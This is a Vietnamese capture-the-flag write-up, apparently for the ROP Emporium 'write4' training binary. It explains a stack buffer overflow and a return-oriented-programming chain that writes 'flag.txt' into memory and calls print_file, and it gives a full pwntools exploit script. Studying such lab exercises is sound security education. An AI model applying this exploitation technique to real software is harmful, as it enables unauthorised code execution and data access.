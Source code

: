 **1. Tìm lỗi**

Dùng lệnh file để kiểm tra 

![file.png](photo/file.png)

Là file elf 64 bit -> mở bằng ida64 ta có như sau:

![main.png](photo/main.png)

Hàm pwnme:

![pwnme.png](photo/pwnme.png)

Ta thấy khoảng cách từ biến đến ret là : 0x20 + 0x8 = 40. Chương trình cho phép nhập 0x200 = 512 byte nên có thể nhập tràn đến ret

Hàm usefulFunction:

![use.png](photo/use.png)

Hàm printf_file: 0x0000000000400693

![print_file.png](photo/print_file.png)

Ta thấy ở hàm print_file thì truyền tên file vào thanh ghi rdi thì sẽ thực hiện in nội dung file đó nên có ý tưởng là truyền flag.txt vào rdi

![pop_rdi.png](photo/pop_rdi.png)

Địa chỉ câu lệnh pop rdi là:

Hàm usefulGadgets:

![gad.png](photo/gad.png)

**2. Ý tưởng**

Ta thấy ở hàm usefulGadgets có câu lệnh mov [r14], r15 nên lợi dụng điều này để ghi flag.txt vào thanh ghi 14 rồi truyền sang rdi và thực hiện gọi hàm printf_flag

![pop_r14.png](photo/pop_r14.png)

Ta thấy địa chỉ 0x0000000000400690 chứa câu lệnh pop r14 và pop r15 nên ý tưởng trên hoàn toàn thực hiện được

Thứ tự payload:
 - 40 byte để tràn đến ret
 - Địa chỉ câu lệnh pop r14 và r15
 - Truyền giá trị tương ứng vào
 - Địa chỉ lệnh mov [r14], r15
 - Địa chỉ lệnh pop rdi
 - Đưa giá trị r14 đã gán ở trên vào
 - Địa chỉ lệnh call print_file
 
**3. Viết script**

Chúng ta cần phải kiếm địa chỉ còn trống để ghi chuỗi vào:

![vmmap.png](photo/vmmap.png)

Ta thấy địa chỉ 0x601030 còn trống nên có thể ghi vào

![call.png](photo/call.png)

Địa chỉ câu lệnh gọi hàm print_file là: 0x0000000000400620

Ta có script như sau:

```
from pwn import *
r = process("./write4")

def asscii2hex(value):
    result = ""
    for i in value:
        result += hex(ord(i))[2:]
    return result

def toAddr(value):
    length = len(value)
    result = "0x"
    for i in range(length-1, 0, -2):
        result += value[i-1] + value[i]
    return result

def process(value):
    return int(toAddr(asscii2hex(value)), 16)



pop = 0x0000000000400690
mov = 0x400628
r14 = 0x601030
r15 = process("flag.txt")
pop_rdi = 0x0000000000400693
printf_file = 0x0000000000400620

payload = b'a'*40
payload += p64(pop)
payload += p64(r14) + p64(r15)
payload += p64(mov)
payload += p64(pop_rdi)
payload += p64(r14)
payload += p64(printf_file)
print(payload)
r.sendafter(b'> ', payload)

r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

